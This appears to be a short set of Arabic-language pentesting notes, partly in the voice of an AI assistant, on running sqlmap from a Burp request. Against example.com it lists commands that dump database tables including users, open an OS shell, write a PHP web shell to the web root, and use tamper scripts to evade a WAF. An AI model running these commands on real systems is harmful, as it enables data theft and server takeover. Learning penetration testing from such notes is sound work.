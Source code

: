 

## ممكن تعمل الامر ده مع Burp suite
انك تروح تاخد كل الكلام الي في ال Request وتحطه في ملف 
![[Pasted image 20250316173403.png]]
وبعدين تكتب الامر ده 
```
sqlmap -r اسم الملف
```


---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اكتشاف الثغرة:**
   - ابدأ بـ:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --batch
     ```
   - لو POST، استخدم `--data`.

2. **جمع المعلومات:**
   - اسحب الداتابيز:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --dbs
     ```
   - اسحب الجداول والأعمدة:
     ```
     sqlmap -u "http://example.com/product.php?id=1" -D testdb --tables
     ```

3. **سحب البيانات:**
   - استخدم:
     ```
     sqlmap -u "http://example.com/product.php?id=1" -D testdb -T users --dump
     ```

4. **التحكم في السيرفر:**
   - جرب شيل:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --os-shell
     ```
   - أو اكتب ملف:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --file-write=/home/user/shell.php --file-dest=/var/www/html/shell.php
     ```

5. **تخصيص:**
   - لو الموقع بطيء، زوّد الـ threads:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --threads=5 --dbs
     ```

#### **نصيحة:**
جرب كل أمر لوحده عشان تفهم الردود، واستخدم `--batch` لو عايز تسرع. لو حاسس إن في حماية زي WAF، جرب `--tamper` عشان تتخطاها.

---

ها، عايز أشرح حاجة زي `--tamper` أو أجرب معاك مثال معين؟